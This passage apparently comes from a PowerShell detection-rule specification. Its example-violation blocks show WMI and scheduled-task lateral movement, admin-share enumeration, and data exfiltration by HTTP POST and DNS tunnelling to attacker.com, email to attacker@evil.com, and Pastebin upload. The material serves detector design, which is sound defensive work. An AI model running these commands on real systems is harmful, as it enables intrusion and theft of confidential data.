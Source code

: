 **Example Violations**:
```powershell
# WMI remote execution
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell.exe -Command {malicious command}" -ComputerName "RemotePC"

# Remote scheduled task
$session = New-PSSession -ComputerName "RemotePC"
Invoke-Command -Session $session -ScriptBlock {
    $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-File C:\payload.ps1"
    Register-ScheduledTask -TaskName "Update" -Action $action
}

# SMB share enumeration
Get-ChildItem "\\RemotePC\C$" -Recurse
Get-ChildItem "\\RemotePC\Admin$"
```

**Suggested Test Script**: `lateral-movement.ps1`

---

### **7. PowerShell Data Exfiltration**

**Priority**: High  
**Category**: Data Loss Prevention / Exfiltration

**Description**: Detect PowerShell commands used to exfiltrate sensitive data from systems.

**Patterns to Detect**:
- Large file uploads to external services
- DNS tunneling: excessive DNS queries with data encoding
- ICMP tunneling
- HTTP POST with suspicious data volumes
- Email exfiltration via SMTP
- Cloud storage uploads (OneDrive, Dropbox, Google Drive)
- Pastebin/GitHub Gist uploads
- Data encoding before transmission (Base64, hex, etc.)

**Example Violations**:
```powershell
# HTTP POST exfiltration
$data = Get-Content "C:\sensitive\data.txt"
$body = @{data = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($data))}
Invoke-RestMethod -Uri "http://attacker.com/receive" -Method Post -Body $body

# DNS exfiltration
$data = Get-Content "C:\secrets.txt"
$encoded = [Convert]::ToBase64String([Text.Encoding]::UTF8.GetBytes($data))
foreach ($chunk in ($encoded -split '(.{32})' | Where-Object {$_})) {
    Resolve-DnsName "$chunk.attacker.com" -Type A
}

# Email exfiltration
$attachment = "C:\confidential\report.xlsx"
Send-MailMessage -To "attacker@evil.com" -From "employee@company.com" -Subject "Data" -Attachments $attachment -SmtpServer "smtp.company.com"

# Pastebin exfiltration
$secrets = Get-Content "C:\passwords.txt" -Raw
$body = @{api_paste_code = $secrets; api_paste_name = "backup"}
Invoke-RestMethod -Uri "https://pastebin.com/api/api_post.php" -Method Post -Body $body
```
